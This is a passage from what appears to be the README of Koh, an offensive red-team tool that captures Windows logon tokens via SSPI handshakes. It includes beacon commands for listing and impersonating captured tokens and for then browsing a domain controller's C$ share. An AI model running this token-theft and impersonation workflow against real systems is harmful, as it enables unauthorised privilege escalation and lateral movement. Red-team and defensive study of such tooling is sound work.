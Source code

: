 _However_ we can use two additional SSPI functions, [InitializeSecurityContext()](https://docs.microsoft.com/en-us/windows/win32/secauthn/initializesecuritycontext--negotiate) and [AcceptSecurityContext()](https://docs.microsoft.com/en-us/windows/win32/secauthn/acceptsecuritycontext--negotiate) to act as client and server to ourselves, negotiating a new security context that we can then use with [QuerySecurityContextToken()](https://docs.microsoft.com/en-us/windows/win32/api/sspi/nf-sspi-querysecuritycontexttoken) to get a usable token. This was documented in KB180548 ([mirrored by PKISolutions here](https://mskb.pkisolutions.com/kb/180548)) for the purposes of credential validation. This is a similar approach to [Internal-Monologue](https://github.com/eladshamir/Internal-Monologue), except we are completing the entire handshake process, producing a token, and then holding that for later use.
```
beacon> getuid
beacon> help koh
beacon> koh groups 67568439
beacon> koh impersonate 67568439
beacon> koh list
beacon> shell dir \\dc.theshire.local\C$
koh exit              - signals the Koh server to exit
koh filter add SID    - adds a group SID for capture filtering
koh filter list       - lists the group SIDs used for capture filtering
koh filter remove SID - removes a group SID from capture filtering
koh filter reset      - resets the SID group capture filter
koh groups LUID       - lists the group SIDs for a captured token
koh impersonate LUID  - impersonates the captured token with the give LUID
koh list              - lists captured tokens
koh release LUID      - releases the captured token for the specified LUID
koh release all       - releases all captured tokens
|    <   |  |  |  | |   __   |
|  '  /  |  |  |  | |  |__|  |
|  .  \  |  `--'  | |  |  |  |
|  |/  /  /  __  \  |  |  |  |
|__|\__\  \______/  |__|  |__|

